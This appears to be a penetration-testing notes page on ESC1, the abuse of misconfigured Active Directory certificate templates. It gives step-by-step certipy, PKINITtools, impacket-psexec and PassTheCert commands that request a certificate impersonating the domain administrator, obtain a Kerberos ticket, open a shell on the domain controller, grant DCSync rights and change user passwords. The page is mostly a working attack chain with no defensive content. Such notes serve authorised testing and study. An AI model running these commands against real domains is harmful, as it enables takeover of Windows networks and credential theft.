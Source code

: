 # ESC1

**ESC1** is a vulnerability where **a low-privileged user** in a Windows domain can **abuse misconfigured certificate templates** to get a certificate that lets them **impersonate another user — even a domain admin**.

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

## Get the .pfx cert

{% code overflow="wrap" %}
```bash
#To specify a user account in the SAN
certipy req -ca 'ca_name' -dc-ip 'DC_IP' -u 'USER' -p 'PASS' -template 'ESC1' -target 'FQDN' -upn 'administrator@DOMAIN.local'

certipy req -u "USER@DOMAIN.local" -p 'PASS' -dc-ip 'DC_IP' -target "FQDN" -ca 'ca_name' -template 'vulnerable_template' -upn 'administrator@DOMAIN.local'
```
{% endcode %}

{% hint style="info" %}
The `$ADCS_HOST` target must be a FQDN (not an IP).
{% endhint %}

## Use pfx cert

### Pass-the-Ticket to auth

Once we have the .pfx file we can use the Pass-the-Ticket technique to get TGT and impersonate the domain admin user.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>git clone https://github.com/dirkjanm/PKINITtools
</strong>
<strong>
</strong><strong>python getttgtpkinit.py &#x3C;DOMAIN>/administrator -cert-pfx /PATH/TO/administrator.pfx PKINIT-Administrator.ccache
</strong>
export KRB5CCNAME=PKINIT-Administrator.ccache

impacket-psexec administrator@&#x3C;DC_IP> -k -no-pass

</code></pre>



### Pass-the-Cert to auth

Another alternative is with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py) (Python) which can be used to conduct multiple techniques like elevate a user for [dcsync.md](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) or change password for a specific user.

{% code overflow="wrap" %}
```bash
# extract key and cert from the pfx
certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"
certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

# elevate a user for DCSYNC with passthecert.py
git clone https://github.com/AlmondOffSec/PassTheCert

passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate

# remote code execution
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain DOMAIN.local -dc-ip IP 
```
{% endcode %}

When we have a ldap-shell we can change a user passowrd using the `change_password` function.



## Resources

{% embed url="https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc1/#elementor-toc__heading-anchor-9" %}
